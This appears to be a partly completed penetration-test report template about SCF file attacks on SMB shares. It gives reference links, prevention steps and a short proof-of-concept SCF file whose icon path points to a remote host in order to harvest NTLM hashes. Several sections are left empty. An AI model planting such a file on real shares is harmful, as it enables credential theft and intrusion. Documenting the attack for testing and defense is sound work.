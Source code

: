 



### Nmap Scan Results: 


### Initial Shell Vulnerability Exploited: 
- [SMB Share - SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).
- [USING A SCF FILE TO GATHER HASHES](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/).
- [Forced Authentication](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication).
- 

### Vulnerability Explanation: 

### Vulnerability Prevention: 
- Disallow write permissions in file shares for unauthenticated users
- Use of Kerberos Authentication and SMB Signing
- Ensure that NTLMv2 password hash is used instead of LanMan

### Severity: High

### Proof of Concept Code Here:
```
[Shell]
Command=2
IconFile=\\IP\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

